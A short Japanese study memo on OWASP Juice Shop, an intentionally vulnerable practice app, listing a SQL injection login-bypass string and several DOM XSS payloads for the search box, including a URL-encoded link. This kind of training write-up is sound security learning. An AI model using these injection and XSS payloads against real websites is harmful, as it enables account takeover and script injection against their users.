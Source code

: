 # JuiceShop の脆弱性メモ

## ログインページの SQLi 

```
http://< JuiceShop URL >/#/login
```

admin@juice-sh.op'--' をログインで入力する
登録済みの任意のアカウントで実行可能

## 検索欄の DOM XSS

検索欄に以下を入力する
```
<img src=1 onerror='alert(1)'>
```

実績解除のためには入力を以下のものにする必要がある
```
<iframe src="javascript:alert(`xss`)">
```

URL なら以下のようになる
```
http://< JuiceShop URL >/#/search?q=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E
```

検索欄に下のペイロード入力したりもできる
```
`<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>`
```
# 試すとよさそうなことのメモ 

## burp repeater

xss の確認に burp repeater を使ってみる
